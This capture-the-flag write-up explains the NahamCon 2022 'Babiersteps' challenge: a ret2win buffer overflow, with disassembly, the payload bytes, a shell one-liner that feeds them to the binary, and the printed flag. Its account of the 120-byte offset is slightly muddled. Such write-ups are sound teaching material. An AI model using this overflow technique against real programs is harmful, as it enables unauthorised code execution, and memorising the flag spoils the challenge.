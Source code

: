 # NahamCon CTF 2022: Babiersteps

Category: Binary Exploitation

Points: 50

## Description

> Baby steps! One has to crawl before they can run.

## Attached Files

 - [babiersteps](attached/babiersteps)

## Summary

For this challenge we need to use a buffer overflow attack to change the return address of the function to a pointer to a function that will call a different function called "win" that provides us shell access. We will then run `cat flag.txt` to get the flag.

## Flag

```
flag{4dc0a785da36bfcf0e597917b9144fd6}
```

## Detailed Solution

Let's begin by testing a few values. After I sent a large input, there was a segmentation fault, which indicates that the program could be vulnerable to buffer overflow. After testing out a few more values of different lengths, I concluded that the segmentation fault occurs when the input is 120 bytes long. Let's take a look at the dissassembly of the program.

```bash
objdump -d babiersteps
```

The result is rather large, though there is an interesting function above `main` named `win`.

```
00000000004011c9 <win>:
  4011c9:       f3 0f 1e fa             endbr64
  4011cd:       55                      push   %rbp
  4011ce:       48 89 e5                mov    %rsp,%rbp
  4011d1:       ba 00 00 00 00          mov    $0x0,%edx
  4011d6:       be 00 00 00 00          mov    $0x0,%esi
  4011db:       48 8d 3d 26 0e 00 00    lea    0xe26(%rip),%rdi        # 402008 <_IO_stdin_used+0x8>
  4011e2:       e8 a9 fe ff ff          callq  401090 <execve@plt>
  4011e7:       90                      nop
  4011e8:       5d                      pop    %rbp
  4011e9:       c3                      retq
```

The function `win` makes a call to execve allowing us to execute a shell. However, the function `win` is never called from `main` or from any of the functions called from `main`. the contents of `main` are below.

```
00000000004011ea <main>:
  4011ea:       f3 0f 1e fa             endbr64
  4011ee:       55                      push   %rbp
  4011ef:       48 89 e5                mov    %rsp,%rbp
  4011f2:       48 83 ec 70             sub    $0x70,%rsp
  4011f6:       48 8d 3d 13 0e 00 00    lea    0xe13(%rip),%rdi        # 402010 <_IO_stdin_used+0x10>
  4011fd:       e8 6e fe ff ff          callq  401070 <puts@plt>
  401202:       48 8d 45 90             lea    -0x70(%rbp),%rax
  401206:       48 89 c6                mov    %rax,%rsi
  401209:       48 8d 3d 39 0e 00 00    lea    0xe39(%rip),%rdi        # 402049 <_IO_stdin_used+0x49>
  401210:       b8 00 00 00 00          mov    $0x0,%eax
  401215:       e8 86 fe ff ff          callq  4010a0 <__isoc99_scanf@plt>
  40121a:       b8 00 00 00 00          mov    $0x0,%eax
  40121f:       c9                      leaveq
  401220:       c3                      retq
  401221:       66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
  401228:       00 00 00
  40122b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
```

What is interesting about this function is that it allocates 0x70 bytes for the variables that will be used in the call to `puts` and `__isoc99_scanf`. This means that 0x70 bytes plus 8 bytes for the return address will be used in the call to `puts` and `__isoc99_scanf`. This means that the buffer will be 0x78 bytes long. And 0x78 is also 120 bytes long, which we found out earlier.

After the scanf call, we can use the buffer to call `win`. This is because after the return, there is another 8 bytes with a pointer back to the main function. We will add 8 bytes on to the end of 120 bytes which have our `win` address.

Let's create a payload. We know that the buffer is 0x78 bytes long, so the first bytes can just be the character 'A'. Then we add our `win` address, but in little endian format, meaning that the bytes are in reverse order. As the address of `win` is `0x00000000004011c9`, the little endian format is `0xc911400000000000`. Let's combine these together.

```
( PAYLOAD )
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc9\x11\x40\x00\x00\x00\x00\x00
```

Now let's pass this payload to the program.

```bash
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc9\x11\x40\x00\x00\x00\x00\x00"; cat) | ./babiersteps
```

Our buffer overflow attack should work. We can now run `cat flag.txt` to get the flag.

---
[Back to home](../../README.md)
